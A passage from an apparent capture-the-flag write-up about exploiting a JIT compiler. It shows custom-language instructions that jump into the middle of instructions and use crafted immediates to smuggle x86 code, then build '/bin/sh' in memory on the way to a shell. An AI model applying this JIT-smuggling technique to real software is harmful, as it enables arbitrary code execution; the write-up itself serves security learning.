 ```
LDR(A, 0)
RET()
```

We can repeat the same process to get `/sh` into position 1.
```
JMP(００6)
MOV(A, 22614) // push rsi; pop rax

JMP(００8)
MOV(A, 51505) // xor ecx, ecx

// Store /bin into position 0.
MOV(A, 0)
STR(A, 10)
MOV(A, 18699)
STR(A, 0)
LDR(A, 0)
ADD(A, 99999)
STR(A, 0)
LDR(A, 10)
ADD(A, 1)
STR(A, 10)
CMP(A, 18524)
JNE(8)

// Store /sh into position 1.
MOV(A, 0)
STR(A, 10)
MOV(A, 45299)
STR(A, 1)
LDR(A, 1)
ADD(A, 99999)
STR(A, 1)
LDR(A, 10)
ADD(A, 1)
STR(A, 10)
CMP(A, 68)
JNE(20)

// Store the constructed value in eax and return so that it's printed. Makes checking for success easier.
LDR(A, 1)
RET()
```
![/bin/sh in r12](/images/google19/jit/bin_sh_r12.png)
